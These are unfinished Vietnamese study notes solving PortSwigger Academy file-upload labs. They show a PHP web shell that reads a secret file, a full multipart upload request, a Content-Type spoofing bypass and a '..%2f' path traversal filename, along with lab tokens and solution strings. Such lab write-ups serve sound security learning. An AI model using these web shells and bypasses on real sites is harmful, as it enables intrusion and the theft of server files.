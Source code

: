 # File Upload (6 labs)

Causes: 

Impact:

Categories: 

Prevention: 

Common Payload:



## Apprentice

### [Lab 1: Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload)

Lab des: 

Lợi dụng chức năng upload ảnh đại diện (avatar) để tải lên một web shell PHP, thực thi mã từ xa và đọc nội dung file bí mật: `/home/carlos/secret`

Steps: 

- Test chức năng upload ảnh: 

  ![image-20250604033238116](./image/image-20250604033238116.png)

- craft file `exploit.py`: `<?php echo file_get_contents('/home/carlos/secret'); ?>`

  => upload avt = file php 

  Send req to burp repeater, gửi req, response trả về sẽ là nột dung file secret cần tìm.

![image-20250604033640351](./image/image-20250604033640351.png)

![image-20250604033721405](./image/image-20250604033721405.png)



### [Lab 2: Web shell upload via Content-Type restriction bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass)

Lab des: 

Bypass kiểm tra loại file bằng cách giả mạo MIME type, upload web shell PHP, rồi dùng nó để đọc `/home/carlos/secret`.

Steps: 

- thử upload file `exploit.php` => fail

  ```html
  POST /my-account/avatar HTTP/2
  Host: 0a1000d503b0da6a83163dde00600082.web-security-academy.net
  Cookie: session=xMbzLeO65tX5gNhSl4hoRExqfXhIrnTg
  
  // redacted info
  
  Referer: https://0a1000d503b0da6a83163dde00600082.web-security-academy.net/my-account?id=wiener
  Accept-Encoding: gzip, deflate, br
  Accept-Language: en-US,en;q=0.9
  Priority: u=0, i
  
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="avatar"; filename="exploit.php"
  Content-Type: application/octet-stream
  
  <?php echo file_get_contents('/home/carlos/secret'); ?>
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="user"
  
  wiener
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl
  Content-Disposition: form-data; name="csrf"
  
  KCYwsgx1yoZgazPhaGICo9CM42wtFWfj
  ------WebKitFormBoundaryht1QVIp1MjDRXZEl--
  
  ```

  Thay dòng `COntent-Type` = 

  ```
  Content-Type: image/jpeg
  ```

  ![image-20250604035332575](./image/image-20250604035332575.png)

=> upload oke

![image-20250604035443300](./image/image-20250604035443300.png)

- submit the solution `Q5lUXaP3ySGQFSMz0hDRCQ9pQ8UC85rq`=> solve the lab

![image-20250604035534846](./image/image-20250604035534846.png)

## Practitioner

### [Lab 1: Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

Lab des: 

Bypass việc ngăn thực thi file upload bằng cách (sử dụng path traversal) di chuyển file ra khỏi thư mục `/avatars/`, nơi không được thực thi, để đưa nó lên thư mục `/files/` có thể thực thi PHP.

Khi upload file exploit.php, trình duyệt k chặn, nhưng cũng k cho phép thực thi mà chỉ hiển thị nội dung là plain text:

![image-20250604040915496](./image/image-20250604040915496.png)

Steps:

![image-20250604041125062](./image/image-20250604041125062.png)

Chỉnh sửa phần `filename` trong trường `Content-Disposition` thành `..%2fexploit.php` (url encode của chuỗi traversal 1 lần)

=> send req

![image-20250604041310095](./image/image-20250604041310095.png)

![image-20250604041339151](./image/image-20250604041339151.png)

H file exploit.php được up lên và nằm ở thư mục /files/, chỉnh sửa req GET để xem ở đó file exploit có được thực thi không:

![image-20250604041527481](./image/image-20250604041527481.png)

=> `H8FDxN2dSVgcQVsl1aRRnWpT1152c6dk` 

![image-20250604041602475](./image/image-20250604041602475.png)



### [Lab 2: Web shell upload via extension blacklist bypass](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

Lab des: 





Steps: 
